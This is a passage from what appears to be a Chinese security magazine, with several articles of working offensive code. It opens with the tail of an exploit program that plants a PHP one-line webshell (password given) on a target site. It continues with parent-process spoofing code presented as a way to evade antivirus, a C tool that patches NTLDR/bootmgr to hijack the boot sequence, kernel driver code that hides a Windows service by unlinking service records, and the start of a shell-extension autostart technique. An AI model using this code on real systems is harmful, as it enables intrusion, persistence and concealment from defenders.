        if (connect(hSock, (sockaddr*)&clientServer, sizeof(sockaddr_in)) != 0)
        {
            printf("到服务器的连接被拒绝！\n");
            break;
        }

        send(hSock, (PCHAR)pBuff, strlen((PCHAR)pBuff), 0);
        printf("执行完成，请查看URL:%s%s/upload/special/ywledoc.php\n", argv[1], argv[2]);
        closesocket(hSock);
    } while (FALSE);

    WSACleanup();
    return 0;
}
```

这段代码执行后会在 `/upload/special/` 目录下生成 `ywledoc.php` 一句话木马，密码是 `paxmac`。

（完）

### 探秘父进程

文/图 李旭升

父进程似乎是一个很简单的概念：如果进程 a 创建了进程 b，那么进程 a 就是进程 b 的父进程，反之进程 b 就是进程 a 的子进程。最近在研究 UAC 的时候，发现事情并非这样简单，进程在创建新进程时，可以指定另一个进程作为被创建进程的父进程。

我们先来看看《深入解析 Windows 操作系统》（第六版）中关于 UAC 提权的描述：When a user agrees to an elevation by either entering administrator credentials or clicking Continue, AIS calls CreateProcessAsUser to launch the process with the appropriate administrative identity. Although AIS is technically the parent of the elevated process, AIS uses new support in the CreateProcessAsUser API that sets the process’s parent process ID to that of the process that originally launched it. That’s why elevated processes don’t appear as children of the AIS service-hosting process in tools such as Process Explorer that show process trees.

这段话明确表明，当用户允许一次 UAC 提权时，AIS 服务（AppInfo Service）调用 CreateProcessAsUser 创建进程并赋予恰当的管理员权限。从理论上讲，AIS 服务（所在的进程）是提权后的进程的父进程，但当我们用 Process Explorer 等工具检查进程树时，会发现提权的进程的父进程是创建它的进程。这是因为 AIS 利用了 CreateProcessAsUser API 中的“新功能”，将提权进程的父进程设置成为创建该进程的进程。如果我们能够利用这种功能，就可以将想要启动的进程的父进程设为任意可信进程，进而躲过查杀；对于检测父进程是否为 explorer.exe 的反调试技术，也可以轻易破解。不过书中没有就这种“新功能”做详细介绍，只有查阅 MSDN。

根据 MSDN 的介绍，如果 CreateProcessAsUser 的 dwCreationFlags 参数被设置为 EXTENDED_STARTUPINFO_PRESENT，则表示存在扩展启动信息。此时 lpStartupInfo 参数需要填入 STARTUPINFOEX 结构。该结构非常简单，由 STARTUPINFO 结构和 PROC_THREAD_ATTRIBUTE_LIST 指针组成。

```c
typedef struct _STARTUPINFOEX {
    STARTUPINFO StartupInfo;
    PPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEX, *LPSTARTUPINFOEX;
```

PROC_THREAD_ATTRIBUTE_LIST 是未公开的结构，需要通过 InitializeProcThreadAttributeList 函数初始化，并通过 UpdateProcThreadAttribute 函数添加和设置属性。我们只需添加 PROC_THREAD_ATTRIBUTE_PARENT_PROCESS 属性，并提供一个（有足够权限的）进程句柄，即可设置被创建进程的父进程。部分代码如下：

```c
DWORD pid=0;
```

```cpp
GetProcessIdByName(L"explorer.exe", &pid);
HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
cout << "PID: " << pid << endl << "Handle: " << handle << endl;

STARTUPINFOEXA si;
ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(si);

SIZE_T lpsize = 0;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpsize);
char* temp = new char[lpsize];
LPPROC_THREAD_ATTRIBUTE_LIST AttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)temp;
InitializeProcThreadAttributeList(AttributeList, 1, 0, &lpsize);
if (!UpdateProcThreadAttribute(AttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &handle, sizeof(HANDLE), NULL, NULL)) {
    cout << "Fail to update attributes" << endl;
}
si.lpAttributeList = AttributeList;

PROCESS_INFORMATION pi;
ZeroMemory(&pi, sizeof(pi));

#ifdef ADMIN
    HANDLE Token;
    OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &Token);
    if (CreateProcessAsUserA(Token, 0, "regedit.exe", 0, 0, 0, EXTENDED_STARTUPINFO_PRESENT, 0, 0, (LPSTARTUPINFOA)&si, &pi))
#else
    if (CreateProcessAsUserA(NULL, 0, "calc.exe", 0, 0, 0, EXTENDED_STARTUPINFO_PRESENT, 0, 0, (LPSTARTUPINFOA)&si, &pi))
#endif
{
    cout << "Process started" << endl;
}
else {
    cout << "Error code: " << GetLastError() << endl;
}

DeleteProcThreadAttributeList(AttributeList);
delete[] temp;


```

以上代码会用 explorer.exe 作为父进程启动 calc.exe。利用 Process Explorer 可以验证这一点，如图 1 和图 2 为伪造父进程与直接启动 calc.exe 的进程树对比。如果需要创建有管理员权限的进程（如 regedit），只需以管理员权限运行本程序，并将 CreateProcessAsUser 的第一个参数设为当前进程的令牌句柄（对应于上述代码中 `#define ADMIN` 的情况）。
图 1 伪造父进程（将 calc.exe 的父进程设为 explorer.exe）
图 2 直接启动 calc.exe

如果我们想要调试的程序会检测父进程，则只需用上述方法启动它，并将其父进程设为允许的进程即可。当然，启动时需要设置 CREATE_SUSPENDED 并在调试器挂载后用 ResumeThread 恢复其执行。

综上，进程的父进程不一定是进程的创建者，所以杀软并不能简单地根据父进程（进程树）决定进程是否可信。实验发现，上述方法伪造父进程不能绕过 360 的检测，它是怎么做到的呢？查阅 MSDN 发现，通过 PsSetCreateProcessNotifyRoutine 设置的监控回调会接受一个指向 PS_CREATE_NOTIFY_INFO 结构的指针。通常我们认为 ParentProcessId 成员为父进程的 PID；其实该结构有一个成员为 CreatingThreadId，其中的 CreatingThreadId->UniqueProcess 为进程的创建者（即 CreateProcess* 的调用者），这样便可以确定谁是真正的“父进程”了。

### 修改 NTLDR 添加 Boot 级开机密码

文/图 Naylon

早在 2005 年，Bootkit 这个概念就已被提出。随着红极一时的病毒“鬼影”的出现，Bootkit 才渐渐被国人熟知。Bootkit 可以说是 Rootkit 的加强版，强大之处在于它的隐蔽性，一般的查杀很难将其彻底清除干净。例如鬼影通过修改 MBR（Main Boot Record，主引导记录）实现了开机自动执行恶意代码，且重装系统甚至全盘格式化都无法删除。因为它存在于硬盘的 1 扇区里，并非文件系统中的文件，而且 MBR 的代码在系统加载前就已经被执行，所以更是占有极高的主动性。

以上是对 Bootkit 的一个简介，用它作为开场白，是因为本文将实现一个 Boot 级别的程序，可以说是一个“善意的 Bootkit”。

## 概述

首先要简单概述一下计算机的引导过程。主板加电后，CPU 将执行权交给 BIOS，BIOS 将检查并初始化各个设备，执行计算机最基本的初始化工作，这个流程是固定的。当固化的 BIOS 程序执行完毕后，BIOS 把控制权交给启动设备，操作系统通常从硬盘启动，系统 BIOS 将读取并执行硬盘上的主引导记录 MBR（Main Boot Record），MBR 接着从分区表中找到第一个活动分区，然后读取并执行这个活动分区的分区引导记录 DBR（DOS Boot Record），执行权交到 DBR 手里，之后执行的便是系统初始化的代码。DBR 在系统分区中找到加载系统的程序 NTLDR（Win7/Vista 下变成了 bootmgr，后文写到的 NTLDR 也同时代表 bootmgr，因为在本文讨论的范畴内它们的差别并不大），最终把执行权交给 NTLDR，最后由 NTLDR 来加载并初始化操作系统。

综上，我们可以概括一下引导流程：BIOS->MBR->DBR->NTLDR。这四个流程我们都可以进行劫持，插入自己的代码，但是兼容性不一样，比如 BIOS Bootkit 就有很大的局限性，要判断主板上的 BIOS 型号再做针对性处理。本文将演示一种比较简便的方法：劫持 NTLDR，实现一个开机要求输入密码才能进入系统的小程序。

## 劫持 NTLDR

NTLDR 文件保存在系统盘的根目录下，它不是一个典型的 PE 文件，但包含着可执行代码。实际上，NTLDR 是由一个 16 位程序和一个 32 位程序合并而成的，因为引导阶段系统仍运行在实模式下，所以控制权交给 NTLDR 时执行的仍是 16 位程序，当系统环境加载完毕后，才会跳到后面的 32 位 NTLDR 执行进一步的操作。这里我们只关心 16 位的 NTLDR 代码。用 IDA 打开 NTLDR，以 16 位模式进行反汇编来分析 NTLDR，如图 1 和图 2 所示。
图 1
图 2

我们发现入口处即是一个跳转指令，跳到后面开始执行加载代码，因此劫持 NTLDR 就变得相当简单，我们直接修改入口处的跳转指令，让它跳到我们自己的代码上实现功能，完毕后再跳回原始地址。那么我们的代码放在哪里呢？用 16 进制编辑工具打开 NTLDR，发现在 0x00003000 附近有很大的空白区域，如图 3 所示，我们写好代码后将它们放在这里即可，经测试不会对系统加载产生影响。
图 3

## 编写 16 位程序实现验证码功能

前面的铺垫都做好了，下面我们就要编程实现主要功能了。因为运行我们的代码时 CPU 处于实模式，可用的资源很有限，只能使用 BIOS 中断来实现各种显示功能，并且这部分代码要用 16 位汇编语言来编写。我实现的代码如下（主要参考了韦韬的代码并加以完善）。

```asm
;#Mode=COM
.model tiny
.CODE
start:
    ;保存寄存器内容，避免影响系统加载
    push ax
    push bx
    push cx
    push dx
    push si
    push di
entry:
    ;设置ds=cs，以便后面定位字符串
    mov ax, cs
    mov ds, ax
    call sc
    ;显示输入密码的提示字符串
    mov ax, 1234h
    call print
    ;正确密码的字符串地址放入si
    mov si, 2341h
    xor di, di
lp:
    ;取得用户输入
    call getkey
    cmp al, ds:[si]
    je short byte_right
    ;本字符正确则增加计数，存于di
    inc di
byte_right:
    ;显示一个*
    mov al, '*'
    call putchar
    inc si
    mov al, ds:[si]
    cmp al, 0
    je short check
    ;输入未完成，继续获取用户输入
    jmp short lp

check:
    ;输入完成，检查密码是否完全正确
    cmp di, 0
    ;正确则程序退出，代码权交给系统，继续引导
    je short succ
    ;不正确则显示密码错误提示，并重新要求输入
    mov ah, 2
    mov bh, 0
    mov dh, 2
    mov dl, 0
    int 10h
    mov ax, 4321h
    call print
    call getkey
    jmp short entry

succ:
    ;恢复寄存器内容
    pop di
    pop si
    pop dx
    pop cx
    pop bx
    pop ax

    ;跳回原始地址
    mov ax, 4231h
    jmp ax
    ret

sc proc    ;清屏
    mov ah, 0h
    mov al, 2h
    int 10h    ;设置显示模式
    ret
sc endp

putchar proc    ;就是C里面的putchar()，入口参数al=the const char
    mov ah, 10
    mov cx, 1
    mov bh, 0h
    int 10h
    mov ah, 3
    mov bh, 0
    int 10h
    mov ah, 2
    cmp dl, 79
    je short line_over
    inc dl
    int 10h
    ret
line_over:
    mov dl, 0
    inc dh
    int 10h
    ret
putchar endp

getkey proc   ;相当于inkey$，出口al->按键的ASCII
    mov ah, 0h
    int 16h
    ret
getkey endp

print proc    ;显示一个字符串，以'\0'结尾，入口参数，ax=const char *
    mov si, ax
ff:
    mov al, ds:[si]
    cmp al, 0
    je string_over
    call putchar
    inc si
    jmp ff
string_over:
    ret
print endp

pass db 'PASSWORD',0,0,0,0
Ask db 'Enter password:',0
fail db 'Wrong.',0
END
```

看到这里，读者可能对代码中的几个绝对地址有疑惑，这个稍后再作解释。此段代码可以用 MASM 来编译，安装最新的 MASM，将上述代码保存为 chkpwd.asm，然后复制到 MASM 目录\Bin 里，我写了个批处理来自动编译并链接，放到相同目录下运行即可。

```bat
@echo off
@color 0a

set fname=chkpwd

if exist %fname%.obj del %fname%.obj
if exist %fname%.com del %fname%.com
if exist %fname%.exe del %fname%.exe

ml %fname%.asm
link16 /tiny %fname%.obj

echo.
pause


```

因为是 16 位的程序，故要用 link16.exe 来链接。注意，编译时指定了 tiny 开关，则编译出来会是一个纯净的 COM 文件，非 PE 格式，相当于直接把汇编码翻译成机器码后写入文件，生成的 COM 程序如图 4 所示。
图 4

## 覆写 NTLDR 并修正重定位

接下来是不是直接将 chkpwd.com 内容写入空白区域，再更改 NTLDR 的入口跳转就完成了呢？不，还有一个重要的问题要考虑，就是字符串的重定位。阅读我们的 asm 代码，发现输出字符串时，都是先将字符串地址放到 ax 里再调用 print；但仔细观察，可以发现代码中凡是涉及到字符串输出的地方，我们都用了 `mov ax,1234h` 这样的地址，可 1234h 并不是字符串的地址，为什么要用 1234h 呢？因为我们这里不管用什么地址，将 chkpwd.com 插入到 NTLDR 后，字符串的绝对地址都会改变，所以必须要后期写代码进行重定位，也就是修正 `mov ax,1234h` 这样的指令，动态地把 1234h 改成正确的字符串地址。写成 1234h 的形式，是为了后面我们写代码时能方便地通过 `0x12 0x34` 这样的特征码来找到 `mov ax,addr` 指令的位置。完整的修改 NTLDR 代码如下。

```cpp
#include <stdio.h>
#include <Windows.h>
#define MAX_SHELLCODE_SIZE 200

int OFFSET_TIPS_MOV;
int OFFSET_PWD_MOV;
int OFFSET_WARN_MOV;
int OFFSET_PWD;
int OFFSET_STR_TIPS;
int OFFSET_STR_WARN;
int OFFSET_JMP_MOV;
WORD ORG_JMP_CODE;

BOOL EnablePrivilege()
{
    TOKEN_PRIVILEGES tkp;
    HANDLE hToken;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES,
        &hToken)) return FALSE;
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid);
    // 修改进程权限
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL);
    // 通知系统修改进程权限
    return (GetLastError() == ERROR_SUCCESS);
}

HANDLE OpenCom()
{
    HANDLE hCom;
    wchar_t szCom[MAX_PATH];
    // 打开COM程序
    ZeroMemory(szCom, MAX_PATH * sizeof(wchar_t));
    GetCurrentDirectory(MAX_PATH, szCom);
    wcscat(szCom, L"\\chkpwd.com");
    hCom = CreateFile(szCom, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ |
        FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    return hCom;
}

HANDLE OpenNTLDR()
{
    HANDLE hNTLDR;
    wchar_t szNTLDR[MAX_PATH];
    // 打开NTLDR
    ZeroMemory(szNTLDR, MAX_PATH * sizeof(wchar_t));
    GetSystemDirectory(szNTLDR, MAX_PATH);
    ZeroMemory(szNTLDR + 2, (MAX_PATH - 2) * sizeof(wchar_t));
    // 只保留盘符

    wcscat(szNTLDR, L"\\NTLDR");
    SetFileAttributes(szNTLDR, FILE_ATTRIBUTE_NORMAL);  // 去除只读属性
    hNTLDR = CreateFile(szNTLDR, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ |
        FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    return hNTLDR;
}

HANDLE OpenBootMgr()
{
    // Windows7系统没有NTLDR，取而代之的是bootmgr
    HANDLE hBootMgr;
    wchar_t szBootMgr[MAX_PATH];
    // 提升SE_DEBUG权限
    if (!EnablePrivilege()) return NULL;
    // 打开NTLDR
    ZeroMemory(szBootMgr, MAX_PATH * sizeof(wchar_t));
    GetSystemDirectory(szBootMgr, MAX_PATH);
    ZeroMemory(szBootMgr + 2, (MAX_PATH - 2) * sizeof(wchar_t));
    // 只保留盘符
    wcscat(szBootMgr, L"\\bootmgr");
    SetFileAttributes(szBootMgr, FILE_ATTRIBUTE_NORMAL);  // 去除只读属性
    hBootMgr = CreateFile(szBootMgr, GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    return hBootMgr;
}

/*====================================================
找到一段空白区域用于插入代码
====================================================*/
char* FindEmptyArea(HANDLE hFile, int nSize, char* buffer)
{
    int i, j;
    if (nSize >= 0xFFFF)
        return NULL;
    for (i = 0; i < 0xFFFF - nSize; i++) {
        for (j = 0; j < nSize; j++) {
            if (buffer[i + j] != '\0')
                break;
        }
        if (j == nSize) {
            return (char*)i;
        }
    }
    return NULL;
}

/*====================================================
```

## 修正重定位地址

```c
VOID FixOffsetHardCode(char *ComData, int ComSize)
{
    char HardCode_Tips_Mov[3] = {0xB8, 0x34, 0x12};   // mov ax,1234h
    char HardCode_Pwd_Mov[3]  = {0xBE, 0x41, 0x23};   // mov si,2341h
    char HardCode_Warn_Mov[3] = {0xB8, 0x21, 0x43};   // mov ax,4321h
    char HardCode_Jmp_Mov[3]  = {0xB8, 0x31, 0x42};   // mov ax,4231h，原始跳转的地址

    int i;
    for (i = 0; i < ComSize - 3; i++) {
        if (strncmp(ComData + i, HardCode_Tips_Mov, 3) == 0) OFFSET_TIPS_MOV = i + 1;   // +1是为了略过指令的1个字节
        else if (strncmp(ComData + i, HardCode_Pwd_Mov, 3) == 0) OFFSET_PWD_MOV = i + 1;
        else if (strncmp(ComData + i, HardCode_Warn_Mov, 3) == 0) OFFSET_WARN_MOV = i + 1;
        else if (strncmp(ComData + i, HardCode_Jmp_Mov, 3) == 0) OFFSET_JMP_MOV = i + 1;
    }

    for (i = 0; i < ComSize - 5; i++) {
        if (strncmp(ComData + i, "Enter", 5) == 0) OFFSET_STR_TIPS = i;
        else if (strncmp(ComData + i, "PASSW", 5) == 0) OFFSET_PWD = i;
        else if (strncmp(ComData + i, "Wrong", 5) == 0) OFFSET_STR_WARN = i;
    }
}
```

```c
/*====================================
主函数，参数为要设置的密码，不超过11位
====================================*/
BOOL SetBootPassword(char *szPwd)
{
    HANDLE hNTLDR, hBootMgr, hLoader, hCom;
    char buffer[0xFFFF];
    int ComSize;
    char *ComData;
    char *Base;
    DWORD dwReads, dwWrites;

    // 打开COM文件
    hCom = OpenCom();
    if (hCom == INVALID_HANDLE_VALUE) {
        CloseHandle(hNTLDR);
        return FALSE;
    }

    // 获取COM文件大小
    ComSize = GetFileSize(hCom, NULL);
    if (ComSize > MAX_SHELLCODE_SIZE) {
        CloseHandle(hCom);
        return FALSE;
    }

    // 打开NTLDR或BootMgr
    hNTLDR = OpenNTLDR();
    if (hNTLDR == INVALID_HANDLE_VALUE) {
        hBootMgr = OpenBootMgr();
        if (hBootMgr == INVALID_HANDLE_VALUE) {
            CloseHandle(hCom);
            return FALSE;
        } else {
            hLoader = hBootMgr;
        }
    } else {
        hLoader = hNTLDR;
    }

    // 检查NTLDR是否有空白区域插入代码
    ReadFile(hLoader, buffer, 0xFFF, &dwReads, NULL);
    Base = FindEmptyArea(hLoader, ComSize + 0x10, buffer) + 0x10;
    // 多保留0x10个字节的位置避免衔接过紧出错
    if (Base == NULL) {
        CloseHandle(hCom);
        CloseHandle(hLoader);
        return FALSE;
    }

    // 读入COM内容
    ComData = (char*)malloc(ComSize);
    ReadFile(hCom, ComData, ComSize, &dwReads, NULL);
    // 修正偏移量
    ORG_JMP_CODE = *((WORD*)(buffer + 1));
    FixOffsetHardCode(ComData, ComSize);
    // 处理重定向
    *(WORD*)(ComData + OFFSET_TIPS_MOV) = (WORD)(Base + OFFSET_STR_TIPS);
    *(WORD*)(ComData + OFFSET_PWD_MOV) = (WORD)(Base + OFFSET_PWD);
    *(WORD*)(ComData + OFFSET_WARN_MOV) = (WORD)(Base + OFFSET_STR_WARN);
    *(WORD*)(ComData + OFFSET_JMP_MOV) = ORG_JMP_CODE + 3;
    // 目标地址(?) - 当前地址(0x0000) - 指令长度(3) = ORG_JMP_CODE
    // 修正密码
    memset(ComData + OFFSET_PWD, 0, 12);
    CopyMemory(ComData + OFFSET_PWD, szPwd, strlen(szPwd));
    // 插入COM内容到NTLDR+Base中
    CopyMemory(&buffer[(WORD)Base], ComData, ComSize);

    // 改写NTLDR!Entry处的jmp
    *((WORD*)(buffer + 1)) = (WORD)Base - 0x0000 - 0x03;
    // 覆写NTLDR
    SetFilePointer(hLoader, 0, NULL, FILE_BEGIN);
    WriteFile(hLoader, buffer, 0xFFFF, &dwWrites, NULL);
    // 释放资源
    CloseHandle(hCom);
    CloseHandle(hLoader);
    free(ComData);
    //MessageBoxW(0, L"Succeed!", L"BOOT", 0);
    return TRUE;
}

int main(int argc, char **argv)
{
    char szPwd[12] = {0};
    int Status = 1;
    printf("Enter a new password:");
    scanf("%s", szPwd);
    putchar('\n');
    Status = (SetBootPassword(szPwd) == TRUE);
    return Status;
}


```

以上代码便实现了修改 NTLDR 添加开机密码，且代码分别处理了 NTLDR 和 bootmgr，所以 Windows XP/7/8 都支持。因为我们代码执行的这个阶段还没有完全进入操作系统层次，所以针对不同系统代码并不需要做很大修改，只要把引导处的劫持做好就基本没问题了。最终的运行效果如图 5 所示。
图 5

## 结语

本文仅仅是一个修改 NTLDR 的示例，并不是一个成型的 Bootkit。实际上，因为兼容性的问题，Bootkit 有太多的局限性，而且要学习 Bootkit，我们必须深入了解实模式以及 16 位代码的编写。但随着技术的发展，很快我们可能就不再需要实模式引导了，甚至不再需要 BIOS。现在已经有一种新的启动方式：UEFI（Unified Extensible Firmware Interface），这种模式更加灵活，且完全替代了 BIOS。再过几年这项技术就会大面积普及，这也将标志着 BIOS Bootkit 时代的终结。但如黑防所说：在攻与防的对立统一中寻求突破。新的时代新的技术，安全行业的发展也将迎来新的挑战，相信以后会有更多精彩的技术奉献给大家。

## 驱动隐藏服务从原理到实现

图/文 仲夏

对于驱动下服务的隐藏，网上有很多代码，但大多未涉及任何原理的讲解，且代码开发于 Windows 2003/XP 时代，对 Windows 7 系统并不兼容，这也是我研究并写下这篇文章的原因。

本文通过逆向工程逐步明晰并试图还原系统对服务进行管理的足够细节，最终代码实现驱动层面下对指定服务的隐藏。选取的研究对象为 Windows 7 Professional 32 位中文版，相信在耐心阅读全文之后，有能力对其他版本进行类似分析并知晓其原理。

另外，文中涉及的基础知识我尽量顾及，未涉及到的请大家谅解。

## 选定目标：静态逆向分析 services.exe

Services.exe

进程名称：Windows Service Controller

描述：services.exe 是微软 Windows 操作系统的一部分，用于管理启动和停止服务。该进程也会处理在计算机启动和关机时运行的服务。

既然是用于管理服务的关键进程，我们就通过逆向一探究竟，先进行静态逆向分析，工具为 IDA。

- 1）逆向进度 main->SvcctrlMain

函数入口很简洁，我们继续深入 SvcctrlMain，内部代码迅速复杂起来，都是诸如 ScInit*** 的函数，从名称上看，主要进行一些初始化工作，最终如图 1 所示的函数引起了我的注意。

```c
if ( !ScInitDatabase() )
{
    v19 = WPP_GLOBAL_Control;
    if ( *WPP_GLOBAL_Control == v18 )
        goto LABEL_153;
    v33 = (int)dword_1017D68;
    v29 = 24;
    goto LABEL_123;
}
```

图 1

```c
bool __cdecl ScInitDatabase()
{
    ScTotalNumServiceRecs = 0;
    dword_1037124 = 0;
    ImageDatabase = 0;
    dword_10371B8 = 0;
    ServiceDatabase = 0;
    ScInitGroupDatabase();
    ResumeNumber = 1;
    RtlInitializeResource(&ScServiceRecordLock);
    RtlInitializeResource(&ScServiceListLock);
    RtlInitializeResource(&ScGroupListLock);
    return ScGenerateServiceDB() != 0;
}


```

图 2

- 2）逆向进度 main->SvcctrlMain->ScInitDatabase

这里都是一些关键变量的初始化，在对 dword_10371B8 的调用关系中，我发现了函数 ScGetNamedServiceRecord，继续跟进！如图 3 所示。
图 3

- 3）逆向进度 main->SvcctrlMain->ScInitDatabase，交叉引用 ScGetNamedServiceRecord
图 4

如图 4 所示，这是一个 for 循环遍历结构，有经验的可以看出来，这是一个遍历单向链表结构，遍历的起点为 dword_10371B8，遍历的终止条件为指向下一个数据结构的指针为零（具体偏移为 24 个 DWORD 长度，96 个字节 = 0x60 字节）；同时也可以找到本数据结构的一个指针偏移位置（即四字节偏移处，指向这个 wchar 字串，我有理由猜测它指向某一个服务名）。现在，我们可以搭建出初步的数据结构了，代码如下。

```c
#pragma warning(push)
typedef struct _SERVICE_RECORD {
    DWORD   Unknown;
    WCHAR*  Lp_WideServiceName;
    char    unknown1[0x58];
    struct _SERVICE_RECORD *pNextServiceRecord;
} SERVICE_RECORD, *PSERVICE_RECORD;
#pragma warning(pop)


```

## 进一步验证：动态逆向分析 services.exe

dword_10371B8 实际位于 services.exe .data 段的 0x1B8 的偏移处。整个 SERVICE_RECORD 链表头为 0x9907D0，如图 5 所示。
图 5

其下一项链表指向为 0x00990878，如图 6 所示。
图 6

其 wchar 指针指向 0x990904，如图 7 所示，最终指向 360AntiHacker 服务。
图 7

最后，经过多次求证，修正后的数据结构如下。

```c
#pragma warning(push)
typedef struct _SERVICE_RECORD {
    struct _SERVICE_RECORD *pPrevServiceRecord;
    WCHAR* Lp_WideServiceName;
    char unknown1[0x58];
    struct _SERVICE_RECORD *pNextServiceRecord;
} SERVICE_RECORD, *PSERVICE_RECORD;
#pragma warning(pop)
```

至此，services 进程与服务的对应数据结构就清楚了：一个双向链表的数据结构，表头位于 .data 段的 0x1B8 偏移。

## 走向现实：驱动隐藏服务的实现

有了具体原理，我们就能实现相关的代码，大致思路为进入 services 进程空间，定位链表结构，遍历得到指定服务对应的数据结构，断开此处双向链表，核心代码如下，具体的代码及逆向 IDB 文件参考随文提供的文件。

```c
////////////遍历寻找 services.exe eprocess 结构////////////
eproc = (DWORD)PsGetCurrentProcess();    // 得到当前进程的 eprocess 结构
start_PID = *((DWORD*)(eproc + PIDOFFSET));
current_PID = start_PID;
while (1)
{
    if (eproc != 0x00000000 && current_PID != 4 && current_PID > 8)
    {
        Object = *(DWORD *)(eproc + HANDLETABLEOFFSET);
        if (Object != NULL)
        {
            GetProcessNameShort(ShortName, eproc);
            if (strstr(ShortName, "services.exe") != NULL)
            {   // 找到 services.exe 的 eprocess 结构
                proc = (PEPROCESS)eproc;
                break;
            }
        }
    }
    if ((i_count >= 1) && (start_PID == current_PID))
    {
        break;
    }
    else
    {   // 没有找到，遍历下一个进程
        plist_active_procs = (LIST_ENTRY *)(eproc + FLINKOFFSET);
        eproc = (DWORD)plist_active_procs->Flink;
        eproc = eproc - FLINKOFFSET;
        current_PID = *((int *)(eproc + PIDOFFSET));
        Object = *(DWORD *)(eproc + HANDLETABLEOFFSET);
        if (Object != NULL)
            i_count++;
    }
}
```

```c
}

}

////////////////进入 services.exe 进程空间////////////////////
KeAttachProcess((PKPROCESS)proc);

__try
{
    rv = ZwQueryInformationProcess(NtCurrentProcess(), ProcessBasicInformation, &pbi,
                                   sizeof(pbi), 0);
    if (NT_SUCCESS(rv))
    {
        PPEB peb;
        PIMAGE_SECTION_HEADER dathdr;
        DWORD dsec;
        DWORD dsecsize, n;
        char found;
        // 获取 services 内存基地址
        peb = pbi.PebBaseAddress;
        dathdr = FindModuleSectionHdr(peb->ImageBaseAddress, ".data");
        // 定位 data 段地址
        dsec = dathdr->VirtualAddress + (PUCHAR)peb->ImageBaseAddress;
        found = FALSE;
        dsec += SERVICERECORDOFFSET;
        // 定位到管理服务信息的数据结构双向链表表头，遍历
        recptr = (PSERVICE_RECORD)*(DWORD *)dsec;
        while (1)
        {
            DbgPrint("name = %ws\n", recptr->Lp_WideServiceName);
            if (wcsncmp(recptr->Lp_WideServiceName,
                        puServiceName->Buffer, puServiceName->Length >> 2) == 0)
            {
                DbgPrint("we find target service, hide it!\n");
                _asm
                {
                    cli // disable interrupt
                }
                // 断开双向链表
                if (recptr->pNextServiceRecord)
                {
                    recptr->pNextServiceRecord->pPreviousServiceRecord =
                        recptr->pPreviousServiceRecord;
                }
                recptr->pPreviousServiceRecord->pNextServiceRecord = recptr->pNextServiceRecord;

                // else
                // {
                //     recptr->pPreviousServiceRecord->pNextServiceRecord = recptr->pNextServiceRecord;
                // }
                _asm
                {
                    sti // enable interrupt
                }
                // 保留断开的链表信息，便于驱动卸载时恢复
                hideServicedata.HiddenDataOriginalAddress = (DWORD)recptr;
                rv = STATUS_SUCCESS;
                KeDetachProcess();
                ObDereferenceObject(proc);
                return rv;
            }
            recptr = (PSERVICE_RECORD)recptr->pNextServiceRecord;
            if (!recptr) break;
        }
    }
    else
    {
    }
}


```

## 最后的话

前面的逆向过程有一些跳跃，是经过我多次逆向后总结的结果，只是希望给大家一种借鉴，不严谨的地方请谅解。

代码最后虽然实现了，但还有一些瑕疵，比如定位该链表的偏移是硬编码，驱动卸载时，显示卸载失败等问题，望各位高手能够提出更好的解决方案。

## 从WinRAR右键菜单到借助Shell扩展自启动

文/图 李旭昇

最近发现 WinRAR 自解压文档（SFX）的右键菜单与普通 EXE 的右键菜单是不同的，如图 1 和图 2 所示。在一个 SFX 上单击右键，会出现“用 WinRAR 打开”的选项，但在一个普通的 EXE 文件上单击右键，却只有“添加到压缩文件”等选项。于是就形成两个问题：SFX 和普通 EXE 文件有什么区别？完成这种区分的代码是怎样获得执行的？其中第二个问题正是我所关心的，因为弄清楚其中的原理之后，便有机会在用户单击右键时启动我们的程序。
图 1 在 SFX 上单击右键后的菜单
图 2 在普通 EXE 上单击右键后的菜单

我们先看第一个问题。SFX 确实是一个 EXE 文件，WinRAR 在制作 SFX 时将待解压的 RAR 文件打包在里面。当我们运行一个 SFX 时，它首先以 RAR 文件的文件头作为标示，将待解压的文件提取出来，再进行解压。RAR 文件的文件头是“Rar!（52 61 72 71）”，如图 3 所示。

我们利用 WinHEX 查看 SFX 文件便可以验证前面的论断，这样就可以将 SFX 和普通 EXE 区分开来。很多时候为了避免 SFX 文件被发现，我们会将上述 RAR 文件头进行修改，并对 SFX 中查找文件头的代码进行 patch，以达到目的。经过修改的 SFX 可以正常解压，但是右键单击的时候不会出现“用 WinRAR 打开”的选项。
图 3 SFX 文件中的 RAR 文件头

现在来看第二个问题。经过前面的分析，可以猜测在一个 EXE 文件上单击右键时，explorer 执行了某些代码。这些代码验证当前的 EXE 是否为 SFX，如果是则添加“用 WinRAR 打开”等选项，否则就什么都不做。要验证这个猜测，我们必须找到相应的 DLL。首先查看 .exe 和 exefile 相关的注册表项，但是没有任何线索，于是转而查看 WinRAR 的安装目录，很快便发现了可疑的 RarExt.dll。从名字上来看应该是 WinRAR EXTension 的缩写，将其复制一份后尝试删除，发现文件被占用。结束 explorer.exe，用命令行删除 RarExt.dll，再重启 explorer.exe，此时在 SFX 上单击右键，不再出现那些熟悉的选项。

接下来在注册表中搜索 RarExt.dll 的完整路径（D:\Program Files\WinRAR\RarExt.dll），发现它出现在  
HKEY_CLASSES_ROOT\CLSID\{B41DB860-64E4-11D2-9906-E49FADC173CA}\InProcServer32  
和  
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{B41DB860-64E4-11D2-9906-E49FADC173CA}\InProcServer32  
